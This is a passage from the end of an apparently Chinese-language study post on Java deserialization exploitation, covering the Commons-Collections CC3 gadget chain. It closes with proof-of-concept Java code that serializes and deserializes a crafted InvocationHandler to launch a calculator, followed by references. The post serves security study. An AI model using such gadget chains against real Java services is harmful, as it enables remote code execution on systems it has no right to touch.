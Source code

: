 ```java
        InvocationHandler h2 = (InvocationHandler) constructor.newInstance(Target.class, proxymap);
        serialize(h2);
        unserialize("abc.ser.bin");
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }

    public static void unserialize(String filePath) throws Exception{
        ObjectInputStream ins = new ObjectInputStream(new FileInputStream(filePath));
        ins.readObject();
    }
}

```

可以弹出计算器。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640078899081-b4baec9c-d6ab-4de0-9a32-ad6c311d10d4.png)

其他的也与 CC1 一样，利用 AnnotationInvocationHandler 的 readObject 就可以了。

最终利用链长这样：

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640079138538-e2bf1e1a-fa18-4af3-9703-c06241340f95.png)

# 参考文章  

- [Java反序列化CommonsCollections篇(三)](https://www.bilibili.com/video/BV1Zf4y1F74K?spm_id_from=333.999.0.0)
- [Java反序列化漏洞专题-基础篇(21/09/05更新类加载部分)](https://www.bilibili.com/video/BV16h411z7o9?p=4)
- [Commons-Collections 1-7 利用链分析](http://wjlshare.com/archives/1535) 
- [Java类加载机制和对象创建过程](https://segmentfault.com/a/1190000023876273)

- [面试官：说说双亲委派模型？](https://juejin.cn/post/6844903838927814669)
- [Java提高篇——静态代码块、构造代码块、构造函数以及Java类初始化顺序](https://www.cnblogs.com/Qian123/p/5713440.html)